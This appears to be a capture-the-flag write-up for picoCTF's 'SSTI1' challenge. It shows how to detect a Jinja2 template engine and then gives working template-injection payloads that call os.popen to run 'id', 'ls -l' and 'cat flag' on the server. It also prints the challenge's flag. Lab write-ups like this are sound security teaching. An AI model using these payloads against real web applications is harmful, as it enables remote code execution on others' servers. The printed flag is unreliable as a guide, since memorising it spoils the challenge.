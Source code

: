 # SSTI1

- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
- [References](#references)

## Challenge information
```text
Tags: Web Exploitation, browser_webshell_solvable

Description:
I made a cool website where you can announce whatever you want! 
Try it out!
I heard templating is a cool and modular way to build web apps! 

Hints:
1. Server Side Template Injection
```
## Overview
Website where you can announce whatever you want!  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/922068b0-da07-44fc-8dea-1b1c0d59735b" />  

It can be seen that the web will reflect back what we enter into the box  
## Solution
**Step1:** Recon   
The hint has already given away that the site uses [server-side templates](https://portswigger.net/web-security/server-side-template-injection)   
But we need to verify that and find out the backend technology used.  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/cf0e6014-f747-4d73-ae87-9ea984611d90" />  
  
The tests done are as follows:
  
1. Entering `${7*7}` yields `${7*7}`,
2. Entering `{{7*7}}` yields `49` and
3. `{{7*'7'}}` yields `7777777`
  
So now we know we have a Jinja2 backend.  

**Step2:** Now we will enter: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` to see what the web returns  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/93ea84df-579e-4302-a007-3460b85da70e" />  
Web has actually executed our `Id` statement  
**Step3:** Exploit  
Now we will find where the flag is using `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -l').read() }}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/04400d8f-bbf3-4dc0-8a2f-99ab81916c38" />   

## FLag
Use `cat flag` to read  
Flag will be returned  
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}  

## References
See more : [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)




